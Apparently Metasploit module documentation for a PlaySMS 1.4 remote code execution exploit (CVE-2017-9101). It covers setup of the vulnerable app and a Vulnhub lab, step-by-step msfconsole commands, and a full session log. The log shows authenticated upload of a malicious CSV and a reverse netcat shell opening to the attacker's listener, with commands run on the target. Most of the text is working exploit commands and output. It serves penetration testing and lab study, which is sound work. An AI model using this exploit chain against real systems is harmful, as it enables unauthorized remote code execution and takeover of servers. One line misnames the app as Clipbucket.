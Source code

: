 ## Description
import.php (aka the Phonebook import feature) in PlaySMS 1.4 allows remote code execution via vectors involving the User-Agent HTTP header
and PHP code in the name of a file.	

CVE ID : CVE-2017-9101

## Vulnerable Application 
According To publicly exploit Disclosure of PlaySMS 1.4
this application is vulnerable to 'import.php' Remote Code Execution
read more : https://www.exploit-db.com/exploits/42044/


**Vulnerable Application Link** 
https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz

## Vulnerable Application Installation Setup.
Download Application : ```wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz```

Extract..

Move In WebDirectory : ```mv playsms-1.4/web/* /var/www/html/```

Change Owner : ```chown -R www-data:www-data /var/www/html/```

Set DB creds in Config File. And dump playsms-1.4/db/playsms.sql in your playsms database.

Now Visit.


Vulnhub machine : https://www.vulnhub.com/entry/dina-101,200/

**And Follow Clipbucket Installer**
Visit : http://localhost/


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/unix/http/playsms_uploadcsv_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `set targeturi SecreTSMSgatwayLogin`
  6. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
  7. Do: `set lport <port>`
  8. Do: `set lhost <ip>`
  9. Do: `exploit`
  10. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/`,  however it can be changed.

## Scenarios
**TESTED AGAINST LINUX**
```
msf auxiliary(scanner/smb/smb_enum_gpp) > use exploit/unix/http/playsms_uploadcsv_exec    
msf exploit(unix/http/playsms_uploadcsv_exec) > set targeturi SecreTSMSgatwayLogin
targeturi => SecreTSMSgatwayLogin
msf exploit(unix/http/playsms_uploadcsv_exec) > set rhost 10.22.1.10
rhost => 10.22.1.10
msf exploit(unix/http/playsms_uploadcsv_exec) > set username touhid
username => touhid
msf exploit(unix/http/playsms_uploadcsv_exec) > set password diana
password => diana
msf exploit(unix/http/playsms_uploadcsv_exec) > set lhost 10.22.1.9
lhost => 10.22.1.9
msf exploit(unix/http/playsms_uploadcsv_exec) > show options

Module options (exploit/unix/http/playsms_uploadcsv_exec):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   PASSWORD   diana                 yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.22.1.10            yes       The target address
   RPORT      80                    yes       The target port (TCP)
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  SecreTSMSgatwayLogin  yes       Base playsms directory path
   USERNAME   touhid                yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.22.1.9        yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS 1.4

msf exploit(unix/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.10:80 The target appears to be vulnerable.
msf exploit(unix/http/playsms_uploadcsv_exec) > exploit

[*] Started reverse TCP handler on 10.22.1.9:4444
[*] Trying to Login ......
[+] Authentication successful: touhid:diana
[*] Trying to upload malicious CSV file ....
[*] Command shell session 1 opened (10.22.1.9:4444 -> 10.22.1.10:57706) at 2018-03-18 13:10:24 +0530
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
^Z                                                                                                                                                    
Background session 1? [y/N]  y                                                                                                                        
msf exploit(unix/http/playsms_uploadcsv_exec) > sessions -l                                                                                           
                                                                                                                                                      
Active sessions                                                                                                                                       
===============                                                                                                                                       
                                                                                                                                                      
  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               10.22.1.9:4444 -> 10.22.1.10:57706 (10.22.1.10)

msf exploit(unix/http/playsms_uploadcsv_exec) > set verbose true
verbose => true
msf exploit(unix/http/playsms_uploadcsv_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.9:4444 
[+] X-CSRF-Token for login : cf6f56ccf44e26d046ed153319340c14
[*] Trying to Login ......
[+] Authentication successful: touhid:diana
[+] X-CSRF-Token for upload : 7bd4ffbe733ecaa9bea1c5dce9e040e7
[*] Trying to upload malicious CSV file ....
[*] Command shell session 2 opened (10.22.1.9:4444 -> 10.22.1.10:57711) at 2018-03-18 13:17:09 +0530
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
ls -la
total 52
drwxr-xr-x 6 root root  4096 Oct 17 19:09 .
drwxr-xr-x 9 root root  4096 Oct 17 20:51 ..
-rw-r--r-- 1 root root  2908 Oct 17 19:08 config-dist.php
-rw-r--r-- 1 root root  2903 Oct 17 19:11 config.php
drwxr-xr-x 3 root root  4096 Oct 17 19:08 inc
-rw-r--r-- 1 root root  3205 Oct 17 19:08 index.php
-rw-r--r-- 1 root root 13463 Oct 17 19:08 init.php
drwxr-xr-x 3 root root  4096 Oct 17 19:08 lib
drwxr-xr-x 7 root root  4096 Oct 17 19:08 plugin
drwxr-xr-x 3 root root  4096 Oct 17 19:08 storage


```

